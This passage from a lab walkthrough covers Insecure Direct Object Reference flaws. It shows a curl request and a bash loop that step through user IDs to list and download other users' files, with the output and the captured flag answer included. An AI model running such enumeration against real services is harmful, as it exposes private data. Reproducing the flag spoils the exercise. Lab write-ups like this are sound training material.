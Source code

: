 ```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-jabigyux1u]─[~]
└──╼ [★]$ curl -s 'http://94.237.58.110:30846/documents.php' -X POST -d 'uid=1' | grep -oP '\/documents.*?.pdf'

/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```

```shell
#!/bin/bash

url="http://94.237.58.110:30846/documents.php"

for i in {1..20}; do
        for link in $(curl -s "$url" -X POST -d "uid=$i" | grep -oP "flag.*?.txt"); do
                wget "$url/$link"
        done
done
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-jabigyux1u]─[~]
└──╼ [★]$ ./mass_idor_enumeration.sh 

[SNIP]

--2025-06-06 03:22:25--  http://94.237.58.110:30846/documents/flag_11dfa168ac8eb2958e38425728623c98.txt
Connecting to 94.237.58.110:30846... connected.
HTTP request sent, awaiting response... 200 OK
Length: 24 [text/plain]
Saving to: ‘flag_11dfa168ac8eb2958e38425728623c98.txt’

flag_11dfa168ac8eb2958e38425728623c98 100%[========================================================================>]      24  --.-KB/s    in 0s

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-jabigyux1u]─[~]
└──╼ [★]$ cat flag_11dfa168ac8eb2958e38425728623c98.txt

HTB{4ll_f1l35_4r3_m1n3}
```

**Answer**

```
HTB{4ll_f1l35_4r3_m1n3}
```

## Insecure Direct Object References (IDOR) - Bypass Encoded References

### Questions
